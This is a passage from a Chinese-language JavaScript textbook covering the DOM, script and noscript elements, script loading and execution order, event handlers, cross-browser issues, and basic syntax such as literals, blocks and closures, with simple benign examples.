我已经在第 1 章引入了 DOM（文档对象模型）的概念，但现在我们需要更详细地查看它的结构，以便你理解脚本是如何与它交互的。DOM 充当与页面布局相关的所有元素和信息的对象表示。从技术上说，浏览器渲染 Web 页面不需要 DOM，但如果它想允许 JavaScript 读取或向页面写入信息，就需要它了。在历史上，这是 Web 浏览器实现最不一致的功能之一，但近年来，得益于万维网联盟（W3C）在制定 DOM 标准方面的工作（[`www.w3.org/DOM/`](http://www.w3.org/DOM/)），这个问题得到了很大程度的缓解。

一个只有最基本结构但没有内容的 HTML 文档可能写成这样：

```html
<html>
<head></head>
<body></body>
</html>
```

在这里，我有一个全局的 `<html>` 元素，它告诉浏览器预期 HTML 内容。然后我有一个 `<head>` 元素，它应该包含关于文档的信息，如标题、相关的搜索关键词以及其他严格来说不属于布局或内容的其他相关元数据。`<body>` 区域是你放置这些内容的地方。这在 DOM 中将有一个对象表示。在 JavaScript 中，你可以简单通过引用全局对象 `document` 来访问你的 DOM。要访问主体元素，你通常只需要引用 `document.body` 即可。如果你想以字符串的形式访问 `<body>` 元素的 HTML 内容，可以访问该元素的 `innerHTML` 属性（`document.body.innerHTML`）。这就是 DOM 的威力。如果你将页面视为一个分层对象模型，它就变成了一个你可以用 JavaScript 对象轻松表示的东西。

如果你为这种表示画一个对象层次结构，它可能看起来像图 2-1。

图 2-1


图 2-2 显示了具有单个标题的文档的 DOM 表示。

图 2-2


尽管我们仅仅添加了一个 `<h1>` 元素和一些文本，但在对象模型中你会看到一些隐含的额外结构——例如 `<h1>` 对象的子节点，其名称为 `#text`。当你进入第 13 章深入研究操作 DOM 的具体细节时，你将开始看到很多这样的内容。

## SCRIPT 元素

`<script>` 元素是在网页上嵌入 JavaScript 的方式。它是一个 HTML 元素，可以用于完成以下两件事之一：
* 将脚本直接内联在页面内容中。
* 引用（导入）外部脚本文档。

下表包含了该元素所有通用支持的属性。

属性列表


以下是一个典型的内联脚本嵌入示例：

```html
<html>
<head></head>
<body>
    <h1>Hello World</h1>
    <script type="text/javascript">
        alert('hello!');
    </script>
</body>
</html>
```

如果你的脚本是文档外部的，你可以通过这种方式包含它：

```html
<html>
<head>
    <script src="/js/script.js" type="text/javascript"></script>
</head>
<body></body>
</html>
```

你可以将脚本元素放置在文档的 `<head>` 或 `<body>` 区域。通常情况下，如果使用 `src` 属性导入外部脚本，它们被放在 `<head>` 中。如果你担心下载外部脚本会不必要地延迟页面加载，可以将其直接放在 body 结束标签 `</body>` 之前。

使用 `SRC` 属性外部引用脚本与在页面上嵌入脚本相比具有优势。之一是你可以利用缓存。通常来说，一旦浏览器下载了外部脚本，在下次加载引用该脚本的页面时，它将其保留在内存中。这意味着它不需要每次加载页面时都重新下载脚本内容。对于特别大的脚本，这可以显著提高页面加载性能。

在浏览器支持各种形式脚本的多年里，出现了许多不同版本的语言。如果开发者需要，微软甚至还支持另一种脚本语言 VBScript 来代替 JavaScript。我已经在这里向你展示了 `language` 属性可以强制浏览器将脚本解释为某种特定语言。所有现代浏览器在假设兼容 ES3 的情况下，都会假设 `"JavaScript"` 为默认语言。**稍后，我将讨论如何使用 GZIP 压缩外部脚本以缩短下载时间。在旧版本的 Firefox 和 Netscape 中，你只能在页面的头部部分引用使用这种压缩的外部脚本。较新版本（JavaScript 1.2+）不再有此限制。**

## 脚本掩蔽

过去习惯上使用 HTML 注释对页面上的内联脚本进行*掩蔽*，如下：

```html
<script type="text/javascript">
<!--
    // 我的脚本放在在这里
-->
</script>
```

这是为了防止那些不知道或不支持 `<script>` 元素的浏览器（这些浏览器会将脚本文本直接渲染到页面上）。在实践中这是没有必要的。只有第一代浏览器才有这个问题，而且这会让页面变得杂乱。

## NOSCRIPT 元素

对于理解`<script>` 元素但不执行其中脚本的浏览器（可能是因为禁用了 JavaScript），`<noscript>` 就变得非常有用。它指定了由于某种原因不执行 JavaScript 时显示的备用内容。在这种情况下，`<noscript>` 块中的任何内容都将作为文本显示，否则就会被忽略。例如：

```html
<html>
<head></head>
<body>
    <script type="text/javascript">
        // 一些 JavaScript
    </script>
    <noscript>如果你的浏览器由于某种原因不执行 JavaScript，你会看到我</noscript>
</body>
</html>
```


遗憾的是，这并不是所有不支持 JavaScript 情况的万灵药。在现代浏览器中，该元素按预期工作。然而，拥有过时 JavaScript 引擎的浏览器永远无法正确显示此内容。只有当你确定大多数用户使用现代浏览器时，它才有用。坦率地说，通过使用非侵入式 JavaScript 技术（第 12 章描述），你可以完全放弃 `<noscript>` 元素转而采用更新的方法。

## 执行和加载顺序

如果你是 JavaScript 的初学者，代码到底*何时*被执行可能是一个谜团。页面上有多个地方和方式包含脚本，这使其变得更加神秘。牢固理解如何操作执行顺序对于构建复杂的脚本非常有帮助。

## 内联脚本

当我提到内联脚本时，指的是那些如果页面从上到下读取，将在*一旦遇到时立即执行*的脚本。它们可以同时出现在页面的 `<head>` 和 `<body>` 区域。这是一个示例：

```html
<html>
<head>
    <script type="text/javascript">
        alert('Test1');
    </script>
</head>
<body>
    <h1>Hello World</h1>
    <script type="text/javascript">
        alert('Test2');
    </script>
    <h2>我是另一个 dom 元素</h2>
</body>
</html>
```

如果你在浏览器中打开此页面，你看到的第一个是图 2-3。**图 2-3**  一旦你点击 OK，浏览器继续解析 DOM 直到到达第二个脚本块。现在你看到一个只有一个第一个标题的部分文档。你的第二个脚本块 `alert()` 调用中断了一切并等待你继续。图 2-4 显示了最终结果。**图 2-4**  最后，当你点击 OK，剩余的 DOM 被解析。**这种行为对于引用 DOM 元素的脚本具有重要影响。如果你执行内联代码尝试修改文档中较后出现的 DOM 节点，你的脚本将无法看到这些元素。在这种情况下，你必须推迟脚本的执行，直到整个 DOM 加载。在 Internet Explorer 中，尝试修改尚未完全渲染的文档有时会触发严重的浏览器异常。稍后，我将向你展示如何强制脚本在 `domready` 和 `onload` 等事件上执行，这些事件发生在页面加载生命周期的关键点。**

## 外部脚本

之前我展示了脚本可以直接放在 HTML 文档内容中，也可以像示例所示从外部文件包含。外部引用脚本的执行点与内联脚本完全相同。下面的示例的行为与之前的示例相同，尽管脚本位于另一个文档中。

这里的唯一区别在于，在实践中，你的页面加载可能会稍微久一点，因为浏览器必须暂停执行并连接网络或文件系统来获取你的外部文件。对于在慢速连接下的大型脚本，这可能会导致明显的延迟。但对于像这里这样的小型脚本，这并没有太大区别。

## 延迟脚本

我已经讨论过几种情况，在这些情况下你可能不希望脚本在 DOM 完全解析和加载之前执行、甚至下载。其中一种情况是你打算修改 DOM —— 你必然希望整个 DOM 先存在。另一种情况是，你的外部引用的 JavaScript 文件很大，或者可能需要几秒钟下载。在这种情况下，你可能倾向于让它的优先级低于页面的其他部分。毕竟，在我们的 JavaScript 文件下载期间，用户可能还有各种图像和布局可以查看。

实现这一目标有几种不同的方法。Internet Explorer 在 `<script>` 元素上有一个方便的属性（它是 HTML 规范的一部分，但仅由 IE 支持），称为 `defer`。当使用该属性时，Explorer 知道延迟加载脚本，直到页面的其余部分解析。该功能是在 Internet Explorer 4（仅限 PC，不限 Mac）中引入的，且莫名其妙地从未在其他浏览器中实现。要延迟执行脚本，请使用 `defer="defer"` 属性：

```html
<script defer="defer" type="text/javascript">
    // my script
</script>
<script src="external.js" defer="defer"></script>
```

关于 Explorer 执行内联脚本与外部延迟脚本的精确顺序，存在一些细微差别。具体的顺序如下：

1. 首先按照出现顺序执行 `<head>` 区域中所有非延迟 (`non-deferred`) 的外部或内联脚本。
2. 然后，按照出现顺序执行 `<head>` 区域中所有仅内联的延迟 (`deferred`) 脚本。
3. 接着，按照出现顺序执行 `<body>` 区域中任何延迟或非延迟的仅内联脚本。同样，任何外部非延迟脚本也会与这些脚本归类在一起。请注意，`<body>` 不支持 `deferred` 内联脚本，因此添加 `defer` 没有产生影响。
4. 随后，按照出现顺序执行来自 `<head>` 的任何延迟 (`deferred`) 外部脚本。
5. 最后，按照出现顺序执行来自 `<body>` 的任何延迟 (`deferred`) 外部脚本。

总结这个序列（诚承认有点困惑），在内联脚本中添加 `defer="defer"` 只有当它们位于页面的 `<head>` 中才会真正起作用。由于其他浏览器通常不支持 `defer`，你只剩下一种简单的技术来实现相同的行为。那就是确保你的脚本放置在闭合的 `</body>` 标签之前，如下所示：

```html
<html>
<head></head>
<body>
    <h1>Some heading</h1>
    <script src="myscript.js" type="text/javascript"></script>
</body>
</html>
```

只有这样，你才能保证其余的 DOM 已经就绪，并且页面不会因为加载沉大的外部文件而变慢。

## 事件驱动脚本

能够延迟脚本对于控制页面加载性能很有用，但在控制某段代码的精确执行时间时，它是一个粗糙的工具。通常，开发者并不依赖于脚本的位置来管理这一点。幸运的是，浏览器有一个丰富的事件模型供你使用，其中包括 DOM 本身加载完成的事件，以及包括所有图像和脚本资源在内的整个页面下载完成的事件。随着你作为开发者的不断进步，你将依赖这个事件模型。

让脚本在页面加载后执行的最简单方法是利用页面的 `onload` 事件。实现此操作有两种方法。最简单的方法是使用 `<body>` 元素的 HTML `onload` 属性。下面的示例使用了我尚未讨论过的概念，例如 `functions`（函数）。请随意阅读此内容，并在之后读完第 5 章后再回来查看。

<!-- 使用 body 标签上的 onload 事件控制脚本执行 -->
```html
<html>
<head>
<script type="text/javascript">
function myFunction() {
    alert('Hello!');
}
</script>
</head>
<body onload="myFunction()">
    <h1>Hello World!</h1>
</body>
</html>
```

仔细观察这个示例，你会发现在 `<head>` 中有一个包含单个函数的内联脚本块。函数内部的代码只有在调用它时才会执行，因此 JavaScript 解析器会解释该脚本块，记住该函数，但不会执行任何操作。在页面下方，你看到打开的 `<body>` 标签，它带有一个单一的 HTML 属性 `onload="myFunction()"`。对于浏览器来说，这意味着“请在页面加载后执行此 JavaScript”。当你测试此页面时，你将在看到 `myFunction()` 中的 `alert()` 之前看到整个文档。

在这里展示的示例中，我使用了一种名为内联（inline）或侵入式事件绑定（obtrusive event binding）的技术。这意味着你直接将 JavaScript 嵌入 HTML 中。虽然这被通用支持，但并不是一种推荐的做法。我在这里展示它是因为了解这一点很重要，而且它符合 JavaScript 开发者的自然演变过程。在第 12 章中，你将探索另一种绑定事件的方法，而无需以这种混乱的方式将标记语言和脚本混合在一起。

另一种触发 JavaScript 执行的方法是响应用户操作。例如，你可能希望在用户点击按钮或鼠标悬停在标题上时执行某些脚本。像 `onload` 事件一样，你可以通过使用 HTML 中的事件属性来附加这些事件：

<!-- 使用按钮的 onclick 事件触发脚本执行 -->
```html
<html>
<head>
<script type="text/javascript">
function myFunction() {
    alert('Hello!');
}
</script>
</head>
<body>
    <button onclick="myFunction()">Click me!</button>
</body>
</html>
```

## 动态加载脚本

外部加载 JavaScript 的另一种方法是通过称为 `动态加载 (dynamic loading)` 的高级技术。这允许你随心加载外部 JavaScript 文档——而不仅仅是在页面加载时。如果你想通过交错加载各种大型脚本文件来提高页面性能，或者带宽是一个主要的考虑因素，你可能想这样做。某些 JavaScript 框架会在需要时或通过简单的脚本配置方案动态将功能加载到程序中。无论如何，这都是你在第 25 章中详细探讨的高级主题。现在，考虑以下这个简单示例，它使用了你可能不熟悉的概念（请在读完第 13 章或 25 章后回到此部分）。

<!-- 动态加载外部 JavaScript 文档 -->
```html
<html>
<head>
<script type="text/javascript">
function loadScript(src) {
    var headObj = document.getElementsByTagName("head")[0];
    var newScriptObj = document.createElement('script');
    newScriptObj.type = 'text/javascript';
    newScriptObj.src = src;
    headObj.appendChild(newScriptObj);
}
</script>
</head>
<body>
    <h1>Dynamic Script Loading Example</h1>
    <button onclick="loadScript('/javascripts/test.js');">Click me to load an external script file!</button>
</body>
</html>
```

在这里，我创建了一个函数，它在被调用时动态向 DOM 的 `<head>` 插入 `<script>` 元素。它接受一个参数 `src`，指向该外部资源的 URL 位置。在页面上，我有一个按钮，点击时会调用该函数。外部文件 `test.js` 如下：

// 此文件从外部加载 [test.js]
```javascript
alert("I am an external javascript resource!");
```

当你点击按钮时，你会得到以下结果，这证明脚本已加载，且其信息已添加到全局上下文中。你可以在图 2-5 中查看结果。图 2-5  如果你现在查看文档的渲染后源代码，它看起来像这样：

```html
<html>
<head>
<script type="text/javascript">
function loadScript(src) {
    var headObj = document.getElementsByTagName("head")[0];
    var newScriptObj = document.createElement('script');
    newScriptObj.type = 'text/javascript';
    newScriptObj.src = src;
    headObj.appendChild(newScriptObj);
}
</script>
<script src="/javascripts/test.js" type="text/javascript"></script>
</head>
<body>
    <h1>Dynamic Script Loading Example</h1>
    <button onclick="loadScript('/javascripts/test.js');">Click me to load an external script file!</button>
</body>
</html>
```

# URL 中的 JavaScript

浏览器的一个较少使用的功能是可以使用 `javascript` 协议在 URL 中放置 JavaScript。浏览器将解释该响应并将其作为文档的源。你可以通过在地址栏中输入以下来看到这一操作：`javascript:var myRandom = Math.random()*100; document.write("<h1>My Random Number</h1><p>" + myRandom + "</p>");` 这将产生在图 2-6 中看到的输出。图 2-6  如果你想在超链接的 URL 中执行 JavaScript，可以使用这种技术：`<a href="javascript:alert('Hello World!')">Hello World</a>` - 尽管如此，这是第一代浏览器的遗留问题，我将在第 12 章介绍更优雅实现的方法。

# 跨浏览器兼容性

如果你以前听过 JavaScript 因为跨浏览器差异而很难，你可能好奇这些浏览器之间究竟*有什么*不同？如果每个浏览器使用的都是相同的 JavaScript 语言，并且每个浏览器都支持 HTML、CSS 和 DOM，那么这有什么难的？实际情况是不兼容性有几个主要来源：

- **DOM 的差异**：尽管文档对象模型（DOM）的概念可以追溯到 1996 年，但在让各种布局和 JavaScript 引擎遵循相同的规则方面，改进仍然微乎其微。遍历 DOM 层级和修改 DOM 内容的方法在不同浏览器之间存在差异。每个浏览器还有一些旨在简化工作的自定义扩展，但这些扩展在其他地方都不受支持。甚至由特定布局创建的节点精确数量也取决于报告该信息的浏览器。在很大程度上，这些问题通过 JavaScript 框架得到了解决，这就是为什么它们如此流行的原因。
- **事件模型的差异**：事件是浏览器脚本的基石。从我们创建和绑定事件的方式，到事件对象本身的方法和属性，在每个浏览器中都是不同的。这些差异甚至延伸到支持*哪些*事件。例如，在 Safari 中，很难判断用户鼠标何时移离开了整个页面。在 IE 中，我们有一些名为 `mouseenter` 和 `mouseleave` 的非常方便的事件，它们简化了判断用户何时位于某些对象上方的操作，但其他浏览器不支持这些。
- **Ajax**：浏览器的另一个基石功能在每个浏览器中的支持方式也不同。同样，我们需要在该功能之上编写封装类以提供一致的接口。
- **CSS**：如果 HTML 是建筑的钢梁和结构，那么 CSS（层叠样式表）就是油漆和装饰。CSS 是我们定位、着色、调整大小和装饰页面布局的。遗憾的是，每个布局引擎都按照自己的一套规则运行。在构建复杂的 JavaScript 应用时，我们严重依赖 CSS 来提供皮肤和动画。处理这些差异有时会头疼。尽管如此，在书中，我将识别在特定浏览器中实现某个功能或行为时存在差异的情况。

## 总结

本章涵盖了在网页中嵌入和测试脚本的要点。具体来说，你探索了：

- HTML 页面既以视觉形式表示，也以文档对象模型（DOM）的形式表示，DOM 是页面布局和内容的一种层级结构化对象表示。
- `SCRIPT` 元素允许你直接在页面上嵌入脚本，或引用外部 JavaScript 文档。
- `NOSCRIPT` 元素为禁用了 JavaScript 的浏览器提供了显示替代内容的方法。
- 有简单的方法可以控制脚本的执行顺序和时间。其中一种是在 IE 中使用 `defer` 属性。在所有浏览器中，你都可以通过浏览器事件来控制执行时间。你还可以动态加载和评估脚本。
- 跨浏览器困难的源在于 DOM 实现方式的差异、事件模型的差异、Ajax 实现方式的差异以及 CSS 对页面影响的差异。

在第 3 章中，我将开始介绍 JavaScript 作为语言的基本属性。我将讨论变量、数据类型、结构和语法的基础构建块。

---

动态编程语言可以在运行时执行其他语言可能在编译时才执行的行为。这些行为包括：通过解析新源代码来扩展程序、修改对象和类，或修改类型系统。动态类型（Dynamic typing）是指类型检查主要发生在运行时而非编译时，这是另一个相关概念（JavaScript 也是这样做的），但它对于一种语言被被称为“动态的”来说并不是必不可少的。

某些特定属性使得 JavaScript 具有动态性，并使其极具灵活性。这些属性包括：

- **Eval**：求值表达式允许我们在运行时向程序中引入新的源代码。通过将源代码封装在字符串中，你可以直接将其传递给解析器。例如：`eval("var a = 1;")`。
- **一等函数**：将函数视为对象并作为参数相互传递的能力，是 JavaScript 具有动态性的有力证明。这意味着你可以执行诸此类操作：在运行时创建新函数、将其存储在其他数据结构中，并将其作为结果返回。
- **运行时修改对象**：在 JavaScript 中，你可以在运行时动态设计、实例化和修改对象。这有时会改变程序中其他对象在运行时的行为方式。
- **闭包**：与一等函数的概念类似，闭包是指绑定到自身作用域之外变量的函数，即使该作用域已被破坏或不再可用。在 JavaScript 中，你一直在使用闭包，它们成为了你开发方法中不可或缺的一部分。

## 基于原型的语言

如果你来自 `Java` 或 `C++` 等其他语言，另一个你需要习惯的是缺乏类。相反，你使用一种被称为“原型”（prototypes）的行为复用范式。它与基于类的编程不同在于：在基于类的语言中，通过使用类构造函数创建新实例，最终实例是由类引导模型和布局构建的。而基于原型的系统使用克隆来构建实例，实例的行为和属性被复制到它们身上。克隆看起来与原始对象完全一样，但它是一个独立的对象。在第 10 章中，我将详细介绍原型。

## 字符编码

ASCII 是一种基于英语的简单字符编码格式，仅允许 128 个不同的字符。其中 32 个预留给控制字符，在普通字符串和散文中仅剩下 96 个可用字符。如果限制开发者仅在应用程序中使用英语，对网络来说将是狭隘的，因此在 JavaScript 中引入更具包容性的格式最终成为了主流。现代 ECMAScript 程序使用 Unicode 标准编写，这是一种表示世界上大多数语言的流行国际标准（包含 100,000 个字符）。在 Unicode 内部，通过选择几种编码方案之一有多种表示字符的方法。其中最流行的是 UTF-8，它使用一个字节来描述原始 256 个范围内的任何字符（包括所有英语字符），对于超出该范围的字符每个字符使用二到四个字节。给处理 Unicode 字符串开发者的提示：在大多数情况下，无论使用什么编码，执行字符串操作都是安全的。然而，原始规范中的一些过时函数不支持这些；例如 `escape()` 和 `unescape()`、`encodeURI()` 或 `encodeURIComponent()`。Unicode 字符在字符串中通过输入 `\u` 然后对应字符在 UTF-16 集中编码的四位数字来表示；例如，`\u0041` 代表字母 `A`。

## 大小写敏感

与某些语言（例如 `VBScript` 和 `HTML`）不同，JavaScript 是完全大小写敏感的。所有变量、关键字和函数名必须使用一致的大小写。例如，关键字使用小写字母。以下行将是非法的：

```javascript
Function funct() {
    // 此处有一些代码
}
```

在关键字中使用大写 `F` 将无法被正确解释。使用同样的例子，你可以在第一个函数下方定义另一个函数并将其命名为 `Funct()` 而不是 `funct()`，它们将是两个独立的实体。此外，以下也是不同的：

```javascript
var apple;
var APPLE;
```

## 空格符与分号

在大多数情况下，JavaScript 解释器对我们源代码中的空白数量或缩进次数完全不敏感。尽管下面两个函数看起来不同，但它们的解析方式完全相同：

```javascript
function funct() {
    var a = 1;
    var b = a;
}

function funct(){a=1;b=2;}
```

正如你稍后将看到的，这有利于你，因为你可以通过删除所有不必要的空白来减小代码体积。对于像 `var a = 1;` 这样的语句，由于你在每个语句末尾使用了分号，你可以将它们合并到同一行。分号表示语句已结束，但如果你使用换行符（如示例所示），也可以省略分号：

```javascript
var a = 1
var b = a
```

通常认为开发者应该始终使用分号作为最佳实践，以提高可读性。这也使得在需要时更容易删除不必要的空白（换行）。

## 字面量

在任何语言中，字面量都是直接出现在源代码中的数据值。它们与变量不同，因为它们是固定的程序本身的一部分。以下示例显示了根据列表的字面量：布尔、浮点数、正则表达式和空。

```
true
1.2
/search/g
null
```

### 整数字面量

数字可以用多种方式表示，包括十（基 10）、十六进制（基 16）和八进制（基 8）。它们可以是带符号或不带符号的，在非基 10 语法描述字面量时可以包含非数字字符。示例包括：

```javascript
var tenval = 10; // 数字 10 的十进制，基 10
var minusten = -10; // 数字 -10 的十进制，基 10
var twentyfiveval = 031; // 数字 25 的八进制，基 8
var twelvethouval = 0x3214; // 数字 12,820 的十六进制，基 16
```

### 浮点数字面量

浮点值同样可以用多种方式表示。它们可以是带符号的，并且可以包含指数（`e` 或 `E` 后跟一个数字）。浮点字面量的通用语法为：`[numbers][.fraction][(e|E)[(+|-)]exponent]`

一些示例如下：

```javascript
var simplepi = 3.1415;
var twothirds = .66666666666666666;
var ninetytwothouval = 9.2E4; // 92,000 的指数计数法
var negnum = -1.2E12; // -1,200,000,000,000
var smallnum = 23e-3; // 0.023
```

### 布尔字面量

只有两个布尔字面量：`true` 或 `false`。例如：`var a = true;` `var b = false;`

### 字符串字面量

字符串字面量是用单引号（''）或双引号（""）封装的零或多个字符。一些示例：`var emptystring = "";` `var name = "Jimmy";` `var nickname = "Ol' Stink Eye";` `var pets = 'One cat one dog';` `var favourite_expression = 'Don\'t count your chickens until they\'re hatched.';` 注意最后一个示例中使用了反斜杠来“保护”字面量不被额外的单引号破坏。这种反斜杠的使用与你处理 Unicode 字符编码的方式相同，被称为“转义”（escaping）。它用于所有难以直接输入、需要特殊描述（如 Unicode 字符）或可能是破坏字符串的“有害”符号的字符。

#### 嵌套引号

反斜杠的一个常见任务是在字符串内部嵌套引号。例如，以下语句是无效的：`var myString = "He called himself a "neo-classicist", whatever that means.";` 字符串中间出现的双引号（"）会混淆解释器，因为它会认为那是字符串字面量的结束。为了正确编码此值，你需要使用反斜杠：`var myString = "He called himself a \"neo-classicist\", whatever that means.";` 另一种避免使用反斜杠的方法是使用相反的引号。正如你以后会发现的，字符串字面量可以交替使用双引号（"）或单引号（'）定义。例如：`var myString = 'He called himself a "neo-classicist", whatever that means.';` `var myOtherString = "He called himself a 'neo-classicist', whatever that means.";` 虽然在语法上不正确，但这两者都是封装这些有害引号的完全有效的方法。

#### 转义回车符

当你想要在字符串字面量中描述换行时，可以使用下表中的 `\n` 序列进行编码。你也可以通过以下方式在字符串中插入实际的换行而不会引起解析错误：`var a = "Once\ upon\ a\ time";` 此字符串将求值为："Onceuponatime"。

#### 其他符号

字符串字面量中有许多常用的转义序列。这些包括：

### 数组字面量

数组和对象字面量都使用了从 C++ 借用的概念——对象初始化器。这是对象和集合类型的一种语法，允许你在初始化对象的同时为一个或多个属性赋值。这对于往来传递任意对象以及以 JavaScript 易于解释的形式传输数据变得极其有用。我稍后详细讨论这一点。在 JavaScript 1.1（JScript 2.0）之前，不支持数组和对象字面量。在这些情况下，开发者仍然可以使用相应对象类型的构造函数。例如：`var a = new Array(1, 2, 3);` 现在，这里有一些有效的数组字面量示例：`var colors = ["red", "blue", "green"];` `var randomstuff = ["tree", 'book', 12, true, 13E10, ["red", "blue", "green"], null];` `var missingvalue = [1, 2, 3, , 5];` 注意最后一个示例中使用了一个空值。这是数组字面量的有效语法。这里需要注意的是的是，如果数组字面量中的最后一个值是这样表示的，它将从数组中删除。例如：`var only3items = ['one', 'two', 'three', ];`

#### 多维数组

数组可以包含任意数量的维度，可以使用字面量符号以多种方式描述。例如：`var myArr1 = ["one", "two", "three"];` `var myArr2 = ["apple", "orange", "peach", "carrot"];` `var myArr3 = [1, 2, 3, 4];` `var multiDArray = [myArr1, myArr2, myArr3];` 为了简化问题，可以用一个简单的字面量描述整个结构：`var multiDArray = [["one", "two", "three"], ["apple", "orange", "peach", "carrot"], [1,2,3,4]];`

### 正则表达式字面量

与字符串字面量通过引号封装某些文本定义一样，正则表达式（RegExp）字面量也可以通过在正斜杠之间封装某些文本来创建。例如：`var mypattern = /findme/;`

```javascript
// 上面的字面量等同于下面的：
var mypattern2 = new RegExp("findme");
```

像数组和对象一样，RegExp 字面量也是对象初始化器。前面的模式将搜索文本"findme"第一次出现。关于正则表达式的更详细解释可以参考第 7 章，但 JavaScript 基本使用的语法与 Perl 语言相同。关于 RegExp 语法的优秀教程，请将浏览器指向 http://www.regular-expressions.info 或购买 Jeffrey Friedl 编写的名誉书籍《Mastering Regular Expressions》。

### 对象字面量

任意对象都可以用字面量符号描述，本质上是封装在花括号 ({}) 中的一组名称/值对集合。名称/值对用逗号分隔，并用冒号表示名称和值之间的划分。例如：`var kitty = {whiskers: 20, name : "Comet", age: 2};` 使用点表示法，你可以这样访问该对象的成员：`document.write(kitty.name);` // Comet 如果你不熟悉 `document.write()` 语句，不要担心，我将在第 13 章介绍。*从服务器传输数据到 Web 页面的流行方法是使用名为 JSON（JavaScript 对象表示）的格式，基本上就是这里描述的对象表示。更多关于 JSON 的信息请参见第 21 章.*

## 语句

语句是脚本中的任何行代码。通常，这是 `<script>` 和 `</script>` 标签之间的任何可执行代码，或者外部脚本文档内部的代码。正如已经讨论过的，语句结尾可以有分号，也可以没有。如果结尾没有分号，则需要换行。使用分号时，可以将多个语句连接起来，如下例：`var a = 1; var b = 2;` 语句不能以左括号 ({)开头，它表示对象字面量或执行作用域。在第 4 章中我讨论了一些特定类型的语句，包括流程控制和循环语句。

## 块

块是用花括号 ({}) 封装的语句或一组语句。块是大多数编程语言的重要组成部分。JavaScript 中的一个关键区别是，块本身并不提供变量作用域，这意味着在块内部声明的变量并不在块外部语句的作用范围内。例如，考虑以下块：

```javascript
if (!a) {
    var a = "yay";
}
document.write(a); // "yay"
```

在示例顶部的块内部，我定义了一个名为 a 的变量。这个变量在块外部是可以访问的。在不抢跑的情况下，考虑这个例子：

```javascript
function myFunct() {
    var g = "yay";
}
myFunct();
document.write(g); // ReferenceError: g is not defined
```

在这个例子中，`myFunct` 封装的块提供了作用域。原因将在本章稍后详细讨论。

## 闭包

通常来说，闭包是绑定到一个或多个外部变量的函数。当调用它时，函数能够访问这些变量。在 JavaScript 中，闭包通常在在函数内部声明函数时实现。内部函数访问父函数的变量，即使父函数已经终止。从历史上看，这些在某些浏览器中导致了相当严重的内存泄漏，但在较新版本中这些问题正在解决。JavaScript 闭包的一个示例如下：

```javascript
function addToTen(num) {
    return function() {
        return num+10;
    }();
}
```

```javascript
addToTen(5); // 15
```

尽管我还没有涵盖许多理解此所需的概念，但你可能已经看到我引用了最内部函数范围之外的一个值并返回了结果。这种类型的匿名函数也是一种闭包。

## 注释

